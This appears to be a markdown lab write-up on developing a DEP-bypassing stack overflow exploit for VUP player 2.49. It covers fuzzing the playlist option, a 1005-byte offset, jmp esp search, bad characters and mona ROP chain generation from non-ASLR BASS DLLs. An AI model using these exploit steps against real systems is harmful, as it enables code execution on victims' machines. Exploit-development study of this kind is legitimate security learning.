




# dep bypass


### 1. Fuzz

- application use VUP player version 2.49
- access violation at playlist option





### 2. offset

- finding offset 

```
!mona pattern_create 3000
!mona pattern_offset value
```




##### offset address

```
1005 bytes
```


### 3. Return to stack

- we need to find jump esp code sequence
- so that we can pass execution to stack where code will reside


```
!mona jmp -r esp
```




### 4. find badchars

```
!mona bytearray
```

```
!mona compare -f file -a address
```


##### badchars

```
"\x00\x09\x0a\x1a"
```


### 5. With DEP


1. we need to find modules with no aslr
2. so that restarting the system will not affect our exploit
3. then we can use mona to create rop chains with those modules


```
!mona modules
!mona rop -m modules -cpb badchars
```


```
!mona rop -m BASSWMA.dll,BASSMIDI.dll,BASS.dll -cpb "\x00\x09\x0a\x1a"
```

